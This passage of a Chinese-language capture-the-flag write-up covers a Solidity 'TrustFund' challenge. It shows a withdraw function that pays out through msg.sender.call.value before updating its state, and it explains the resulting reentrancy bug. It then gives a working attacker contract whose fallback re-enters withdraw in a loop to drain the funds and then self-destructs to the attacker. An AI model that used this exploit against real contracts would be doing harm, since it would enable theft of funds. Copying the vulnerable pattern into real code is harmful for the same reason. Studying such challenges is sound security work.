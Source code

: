 ```
    `{`
        custodian = msg.sender;
        allowancePerYear = msg.value.div(10);        
        startDate = now;
    `}`

    function checkIfYearHasPassed() internal`{`
        if (now&gt;=startDate + numberOfWithdrawls * 365 days)`{`
            withdrewThisYear = false;
        `}` 
    `}`

    function withdraw() external ctf`{`
        require(allowancePerYear &gt; 0, "No Allowances Allowed");
        checkIfYearHasPassed();
        require(!withdrewThisYear, "Already Withdrew This Year");
        if (msg.sender.call.value(allowancePerYear)())`{`
            withdrewThisYear = true;
            numberOfWithdrawls = numberOfWithdrawls.add(1);
        `}`
    `}`

    function returnFunds() external payable ctf`{`
        require(msg.value == allowancePerYear, "Incorrect Transaction Value");
        require(withdrewThisYear==true, "Cannot Return Funds Before Withdraw");
        withdrewThisYear = false;
        numberOfWithdrawls=numberOfWithdrawls.sub(1);
    `}`
`}`
```

熟悉的看了就懂了 `withdraw`处 的`msg.sender.call.value`造成的重入。

因为是先转账并且没有进行及时的修改状态造成重入

依旧写脚本

```
contract hack`{`
    address target=challenge address;
    TrustFund A=TrustFund(target);
    uint time;
    constructor()payable`{`time=1;`}`
    function () payable`{`
        while(time&lt;=9)`{`
            time++;
        A.withdraw();
        `}`
    `}`
    function exp()payable`{`
        A.withdraw();
    `}`
    function dest()`{`
        selfdestruct(your addess);
    `}`

`}`
```
